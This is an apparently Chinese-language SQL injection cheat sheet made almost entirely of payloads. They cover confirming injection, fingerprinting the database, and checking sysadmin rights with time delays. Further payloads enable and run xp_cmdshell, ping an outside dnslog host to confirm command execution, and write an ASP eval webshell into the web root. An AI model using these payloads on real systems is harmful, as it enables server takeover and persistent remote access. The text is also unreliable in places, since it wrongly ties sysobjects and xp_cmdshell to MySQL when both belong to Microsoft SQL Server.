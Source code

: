## 判断是否有注入：
```
'and 1=1
'and 1=2
```
## 初步判断是否是mysql
`'and user>0`
## 判断数据库系统
```
'and (select count(*) from sysobjects)>0 正常则是Mysql
'and (select count(*) from msysobjects)>0 正常则是Access
;	Oracle中不支持多行查询，返回错误，很可能是Oracle数据库
#	是MySQL中的注释符，返回错误说明该注入点可能不是MySQL
– 和/**/是Oracle，SQL server和MSSQL支持的注释符，如果正常，说明可能就是这仨了
``` 
# Mysql数据库环境：
## 判断是否为sa权限：
`;if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:5';--`
## 查看是否开启了xp_cmdshell：
`;if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5'--`
## 开启xp_cmdshell(SA权限用户)：
`;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;`
## 执行cmd命令：
`;EXEC%20master..xp_cmdshell 'cmd命令';--`
## 查看是否开启成功
`;EXEC%20master..xp_cmdshell 'ping aa.dnslog';--`
## 写入webshell
`;EXEC%20master..xp_cmdshell 'echo ^<%eval request(chr(35))%^> > C:/inetpub/xxxxxx/a.asp';--`
